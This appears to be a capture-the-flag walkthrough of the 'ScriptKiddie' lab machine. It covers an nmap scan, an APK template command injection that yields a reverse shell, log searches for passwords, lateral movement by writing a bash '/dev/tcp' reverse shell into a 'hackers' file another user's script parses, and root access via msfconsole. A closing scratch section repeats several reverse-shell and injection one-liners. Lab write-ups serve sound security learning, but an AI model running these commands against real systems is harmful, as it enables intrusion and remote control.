

ScriptKiddie
============

[](ScriptKiddie/Screenshot_1.png)

First scan the IP using nmap, it has 2 ports open

So, we have a panel that allow scan Nmap and generate payloads and
search exploits.

[](ScriptKiddie/Untitled.png)

Searching i found a way to make a reverse shell via APK template CMD
injection

[](ScriptKiddie/Untitled%201.png)

Create apk with reverse shell using metasploit famework.

[](ScriptKiddie/Untitled%202.png)

Upload and start netcat in port that you chose.

[](ScriptKiddie/Untitled%203.png)

[](ScriptKiddie/Untitled%204.png)

Success ! We have got the reverse shell.

Try turn shell interactive and start explore the machine, a interesting
file are located in /home/kid/logs/hackers, after we can make anything
with him.

[](ScriptKiddie/Untitled%205.png)

Reading files with password word.

[](ScriptKiddie/Untitled%206.png)

``` {#b9df99b3-9b2a-46a5-b8cf-84146662c04c .code}
/var/logs:  grep -r "password"
```

Setting full interactive shell.

``` {#a68f0632-1e0c-4166-826f-e9a7541c1967 .code}
s=$(stty -g); stty -icanon -echo -isig; fg; stty "$s"
```

[](ScriptKiddie/Untitled%207.png)

Writing reverse shell in hackers script, open port in netcat and wait
for connection.

``` {#955188b4-fdcc-49b3-b7b2-b0e5ae348571 .code}
echo "  ;/bin/bash -c 'exec bash -i &>/dev/tcp/IP/443 <&1' #" >> hackers
```

In the horizontally escalated session had msfconsole command with root
enabled.

[](ScriptKiddie/Untitled%208.png)

[](ScriptKiddie/Untitled%209.png)

msfconsole have a method to spawn shell in session, make that and get
the root flag or run the command cat /root/root.txt .

[](ScriptKiddie/Untitled%2010.png)

``` {#c616ce57-573f-4fa3-8ad6-3434a10ae67d .code}
10.10.10.226:5000/static/payloads/b2b27ec61ee3.apk

bash -i >& /dev/tcp/10.10.14.185/3232 0>&1


echo -n '\x00' + ';bash -i >& /dev/tcp/10.10.14.185/3232 0>&1 ; ./home/pwn/scanlosers.sh #' > hackers
echo -n ';bash -i >& /dev/tcp/10.10.14.185/3232 0>&1 ; ./home/pwn/scanlosers.sh #' > hackers
echo -n './home/pwn/scanlosers.sh'
/home/pwn/./scanlosers.sh

echo -n '/home/pwn/./scanlosers.sh'
echo -n 'ls /home/pwn/recon' > hackers

/usr/share/doc/passwd/
/etc/apparmor.d/abstractions/mysql


echo "  ;/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.185/4443 <&1' #" >> hackers


find directory-location -group {group-name} -name {file-name}


user_spec={'hostname': 'scriptkiddie', 'realname': 'kid', 'username': 'kid', 'password': '<REDACTED>'}
['useradd', 'kid', '--comment', 'kid', '--groups', 'adm,cdrom,dip,plugdev,lxd,sudo', '--password', 'REDACTED', '--shell', '/bin/bash', '-m'
```

